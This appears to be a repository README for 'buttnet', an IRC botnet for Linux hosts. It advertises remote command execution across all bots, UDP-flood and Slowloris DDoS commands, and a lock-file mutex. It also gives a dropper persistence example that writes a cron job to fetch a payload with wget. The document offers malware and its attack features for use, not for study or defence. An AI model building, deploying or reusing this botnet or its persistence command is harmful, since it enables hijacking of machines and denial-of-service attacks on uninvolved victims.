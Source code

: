 # buttnet
A simple IRC Botnet for linux-based targets

##Features
###Commands
* !say `<message>`- Echos message back to channel
  * Command output is PM'd back to command issuer
* !cmd `<command>` - Runs command on all bots in channel, or bot PM'd 
* !udp `<host>` `<port | 0 for random>` `<time(s)>` - UDP flood DDoS attack
* !slowloris `<http|https://host>` `<port>` `<GET|POST>` `<threads>` `<time(s)>` - Slowloris DDoS attack

###Dropper
Dropper allows remote persistence. Example:
* `echo "wget http://target/dropper.php" > /etc/cron.weekly/persistence.sh`

###Mutex
Lock file acts as a mutex to prevent multiple instances of the bot from running at once

